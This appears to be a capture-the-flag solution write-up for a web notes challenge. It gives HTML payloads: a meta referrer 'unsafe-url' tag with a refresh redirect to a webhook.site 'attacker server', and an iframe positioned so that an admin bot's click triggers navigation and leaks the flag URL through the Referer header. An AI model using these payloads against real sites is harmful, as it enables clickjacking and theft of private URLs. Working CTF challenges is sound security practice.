 # Solution


Create one note that:
- Set the referrer policy to `unsafe-url`
- Redirect to the attacker server after 3 seconds

```
<meta name="referrer" content="unsafe-url" />
<meta http-equiv="refresh" content="3;url=https://webhook.site/d485f13a-fd8b-4cfd-ad13-63d9b0f1f5ef" />
```


Create another note that embeds the first one in the right position so that the bot click on the logout button causes the iframe to navigate to `/last`
```
<iframe src="/document/f15df777-f0fb-44bc-a83f-58691ae9c176" style="z-index:2; position:absolute; top:0px; right:-120px; height:100px">
</iframe>
```

By reporting the second note the bot will visit the attacker server, leaking the flag url in the referrer header